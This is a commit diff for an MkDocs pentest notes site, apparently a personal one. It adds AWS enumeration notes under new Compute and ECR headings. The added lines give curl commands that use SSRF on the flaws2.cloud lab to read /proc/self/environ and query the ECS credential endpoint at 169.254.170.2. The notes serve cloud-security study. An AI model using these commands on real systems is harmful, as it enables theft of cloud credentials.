

Before and after one commit to 0xEval/0xeval.github.io, an MkDocs documentation site: the page built from content/aws/enumeration.md, in a window 1280 px wide and 900 px high, scrolled down 1769 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
[+] Update AWS Enumeration contents

````diff
--- a/content/aws/enumeration.md
+++ b/content/aws/enumeration.md
@@ -72,7 +72,24 @@
 
 ### RDS
 
-## Compute (EC2)
+## Compute
+
+### Elastic Compute Cloud (EC2)
+
+### Elastic Container Registry (ECR)
+
+#### Fetch Container Credentials URI with SSRF
+```
+curl -i -X GET "http://container.target.flaws2.cloud/proxy/file:///proc/self/environ"
+```
+
+#### Get Container Credentials from ECS IMDS
+```
+curl -i -X GET "http://169.254.170.2/<version>/<uuid>"
+```
+/v2/credentials/2fdf39e7-50cf-4e11-a47a-533525342c80
+
+### Elastic Kubernetes Service (EKS)
 
 ## Automated Enumeration
 
````
Also changed, not shown: content/aws/training_labs/awsgoat.md (deleted), content/aws/training_labs/cicdont.md (deleted), content/aws/training_labs/sadcloud.md (deleted).
